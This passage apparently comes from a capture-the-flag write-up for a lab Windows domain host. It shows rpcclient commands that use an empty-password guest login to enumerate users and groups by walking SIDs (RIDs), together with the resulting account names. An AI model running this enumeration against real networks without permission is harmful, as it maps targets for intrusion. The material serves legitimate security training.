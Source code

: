 <🔄 Alternative Step>

`rpcclient 10.10.11.236 -U 'guest' --no-pass`:
```
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```
❌

`rpcclient 10.10.11.236 -U 'guest%'`:
```
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> lookupdomain manager.htb
result was NT_STATUS_ACCESS_DENIED
rpcclient $> lookupnames Administrator
Administrator S-1-5-21-4078382237-1492182817-2568127209-500 (User: 1)
```
```
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-500
S-1-5-21-4078382237-1492182817-2568127209-500 MANAGER\Administrator (1) ←
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-501
S-1-5-21-4078382237-1492182817-2568127209-501 MANAGER\Guest (1) ←
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-502
S-1-5-21-4078382237-1492182817-2568127209-502 MANAGER\krbtgt (1) ←
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-503
S-1-5-21-4078382237-1492182817-2568127209-503 *unknown*\*unknown* (8)

[...]

rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1000
S-1-5-21-4078382237-1492182817-2568127209-1000 MANAGER\DC01$ (1) ←
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1001
S-1-5-21-4078382237-1492182817-2568127209-1001 *unknown*\*unknown* (8)

[...]

rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1113
S-1-5-21-4078382237-1492182817-2568127209-1113 MANAGER\Zhong (1) ←
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1114
S-1-5-21-4078382237-1492182817-2568127209-1114 MANAGER\Cheng (1) ←
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1115
S-1-5-21-4078382237-1492182817-2568127209-1115 MANAGER\Ryan (1) ←
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1116
S-1-5-21-4078382237-1492182817-2568127209-1116 MANAGER\Raven (1) ←
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1117
S-1-5-21-4078382237-1492182817-2568127209-1117 MANAGER\JinWoo (1) ←
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1118
S-1-5-21-4078382237-1492182817-2568127209-1118 MANAGER\ChinHae (1) ←
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1119
S-1-5-21-4078382237-1492182817-2568127209-1119 MANAGER\Operator (1) ←
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-1120
S-1-5-21-4078382237-1492182817-2568127209-1120 *unknown*\*unknown* (8)

[...]
```
```
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-512
S-1-5-21-4078382237-1492182817-2568127209-512 MANAGER\Domain Admins (2)
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-513
S-1-5-21-4078382237-1492182817-2568127209-513 MANAGER\Domain Users (2)
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-514
S-1-5-21-4078382237-1492182817-2568127209-514 MANAGER\Domain Guests (2)
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-515
S-1-5-21-4078382237-1492182817-2568127209-515 MANAGER\Domain Computers (2)
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-516
S-1-5-21-4078382237-1492182817-2568127209-516 MANAGER\Domain Controllers (2)
```